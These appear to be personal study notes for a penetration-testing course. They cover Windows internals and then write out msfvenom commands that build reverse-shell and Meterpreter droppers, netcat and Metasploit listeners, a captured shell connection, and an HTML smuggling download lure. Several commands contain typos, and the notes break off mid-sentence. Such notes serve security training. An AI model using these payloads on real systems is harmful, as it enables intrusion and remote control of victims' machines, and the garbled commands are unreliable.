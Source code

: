 # chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter




